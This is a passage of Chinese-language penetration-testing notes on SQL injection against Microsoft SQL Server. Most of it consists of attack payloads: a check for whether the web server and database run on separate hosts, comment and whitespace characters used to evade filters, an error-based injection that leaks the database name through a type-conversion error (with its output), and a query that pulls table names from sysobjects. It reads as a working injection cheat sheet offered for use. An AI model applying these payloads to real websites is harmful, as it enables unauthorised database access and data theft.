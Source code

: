 那么站库分离可以这么来判断

```mssql
select * from user where id='1'and host_name()=@@servername;--'
```

## 符号

注释符

```mssql
/* 
--
;%00
```

空白符号

```mssql
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20	--暂时不了解为什么

/**/
```

运算

```mssql
--基本的不列举了，举几个特殊的
ALL 如果一组的比较都为true，则比较结果为true
AND 如果两个布尔表达式都为true，则结果为true；如果其中一个表达式为false，则结果为false
ANY 如果一组的比较中任何一个为true，则结果为true
BETWEEN 如果操作数在某个范围之内，那么结果为true
EXISTS  如果子查询中包含了一些行，那么结果为true
IN  如果操作数等于表达式列表中的一个，那么结果为true
LIKE    如果操作数与某种模式相匹配，那么结果为true
NOT 对任何其他布尔运算符的结果值取反
OR  如果两个布尔表达式中的任何一个为true，那么结果为true
SOME    如果在一组比较中，有些比较为true，那么结果为true
```

## 基本注入流程

此处利用mssql数据类型不一样比较报错，爆出当前数据库名

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and DB_NAME()>1;
```

```mssql
在将 nvarchar 值 'FanmvCMS' 转换成数据类型 int 时失败。
```

爆表名

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and 1=(SELECT TOP 1 name from sysobjects WHERE xtype='u');
```
